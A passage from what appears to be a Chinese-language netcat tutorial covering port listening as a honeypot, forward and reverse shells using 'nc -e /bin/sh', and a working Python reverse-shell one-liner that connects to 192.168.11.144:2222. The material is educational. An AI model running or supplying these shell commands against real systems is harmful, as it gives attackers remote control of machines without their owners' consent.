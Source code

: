 注：使用-L参数可以不停的监听某一个端口，知道Ctrl+C为止

**作为蜜罐使用2：**

命令：nc -L -p  Port >log.txt

**注：**使用-L参数可以不停的监听某一个端口，知道Ctrl+C为止，同时把结果输出到log.txt文件中，如果把>改为>>即追加到文件之后。

这一个命令参数-L在Windows中有，现在的Linux中是没有这个选项的，但是自己可以去找找，这里只是想到了之前的这个使用，所以提出来简单介绍一下！

### 获取shell

简述：获取shell分为两种，一种是正向shell，一种是方向shell。如果客户端连接服务器端，想要获取服务器端的shell，那么称为正向shell，如果是客户端连接服务器，服务器端想要获取客户端的shell，那么称为反向shell

**正向shell**

**本地主机：**

命令：nc   Targert_IP  Targert_Port 

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/1523783797627.png!small" />](https://image.3001.net/images/20180415/1523783797627.png)

**目标主机：**

命令：nc  -lvp  Targert_Port   -e  /bin/sh  

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237838137473.png!small" />](https://image.3001.net/images/20180415/15237838137473.png)

## 反向shell

本地主机：

命令： nc -lvp  Target_Port

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="本地主机" width="690" data-original="https://image.3001.net/images/20180415/15237842362478.png!small" />](https://image.3001.net/images/20180415/15237842362478.png)

目标主机：

命令： nc  Targert_IP Targert_Port  -e /bin/sh

[<img src="https://www.freebuf.com/buf/themes/freebuf/images/grey.gif" alt="目标主机" width="690" data-original="https://image.3001.net/images/20180415/15237842932087.png!small" />](https://image.3001.net/images/20180415/15237842932087.png)

### 特殊情况目标主机上没有Netcat，如何获取反向shell

在一般情况下，目标主机上一般都是不会有Netcat的，此时就需要使用其他替代的方法来实现反向链接达到攻击主机的目的，下面简单的介绍几种反向shell的设置。

**python反向shell**

目标主机端执行语句：

{% raw %}
```
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.11.144",2222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
```
{% endraw %}
